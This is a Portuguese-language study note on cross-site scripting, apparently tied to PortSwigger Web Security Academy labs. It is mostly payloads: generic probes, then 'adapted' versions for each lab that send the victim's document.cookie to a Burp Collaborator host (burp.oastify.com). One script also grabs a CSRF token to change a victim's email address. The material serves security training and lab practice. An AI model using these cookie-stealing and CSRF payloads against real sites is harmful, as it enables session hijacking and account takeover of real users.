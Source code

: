 # XSS - Cross-Site Scripting

Se você ver um campo de busca (search) ou um seção de comentários, busque por XSS.

Se tudo estiver sendo encodado, provavelmente o parâmetro não está vulnerável a XSS.

Payload genérico para XSS:
```
<>\'\"<script>{{7*7}}$(alert(1)}"-prompt(69)-"fuzzer
```

<br>

Encontrou XSS?

Adapte o payload para roubar o cookie da vítima, por exemplo:

Em vez:
```
<script>alert(1)</script>
```

Teste com:
```
<script>document.location='http://burp.oastify.com/?c='+document.cookie</script>
```

> [!TIP]
> Pratique essa adaptação de payload nos labs. Se o cookie estiver com a flag HTTPOnly ativada, o payload com `document.cookie` não vai funcionar. Remova esse trecho e teste enviando uma request qualquer para o Collaborator para ver se a estrutura está correta.

<br>

## Laboratórios

> [!NOTE]  
> Alguns payloads finais não estão encodados em URL. Lembre de fazer isso caso ele não funcione sem encodar.

<br>

**DOM XSS in document.write sink using source location.search inside a select element**
```
storeId=test"></select><script>alert(1)</script>
```

Versão adaptada:
```
"></select><script>document.location='http://burp.oastify.com/?c='+document.cookie</script>
```

<br>

**DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded**
```
{{constructor.constructor('alert(1)')()}}

OU

{{$on.constructor('alert(1)')()}}
```

Versão adaptada:
```
{{constructor.constructor('document.location="http://burp.oastify.com?c="+document.cookie')()}}
```

<br>

**Reflected DOM XSS**
```
\"-alert()}//
```

Versão adaptada:
```
\"-fetch('http://burp.oastify.com?c='+btoa(document.cookie))}//
```

<br>

**Stored DOM XSS**

A função vulnerável remove somente os primeiros angle brackets.
```
<><img src=1 onerror=alert(1)>
```

Versão adaptada:
```
<><img src=1 onerror="window.location='http://burp.oastify.com/c='+document.cookie">
```

<br>

**Exploiting cross-site scripting to steal cookies**
```
<script>document.write('<img src="http://burp.oastify.com?c='+document.cookie+'" />');</script>
```

<br>

**Exploiting XSS to perform CSRF**
```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() 
{    
var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];    
var changeReq = new XMLHttpRequest();    
changeReq.open('post', '/my-account/change-email', true);    
changeReq.send('csrf='+token+'&email=test@test.com')};
</script>
```

<br>

Reflected XSS into HTML context with most tags and attributes blocked

Utilize o Intruder para testar todas as tags utilizando [esse cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet). Depois de descobrir a tag, faça o mesmo processo para os eventos.
```
<iframe src="https://0a61001b0306cecac0be0a5000570086.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```

Versão adaptada:
```
<script>
location = 'https://exploit-server.web-security-academy.net/?query=<body onload=document.location='https://burp.oastify.com/?c='+document.cookie tabindex=1>#x';
</script>
```

<br>

**Reflected XSS into HTML context with all tags blocked except custom ones**
```
<script>
location='https://kek.web-security-academy.net/?search=<xss id=x onfocus=alert(document.cookie) tabindex=1>#x';
</script>
```

Versão adaptada:
```
<xss id=x onfocus=document.location="http://burp.oastify.com/?c="+document.cookie tabindex=1>#x
```

Reflected XSS with some SVG markup allowed
```
<svg><animatetransform onbegin=alert(1)> 
```
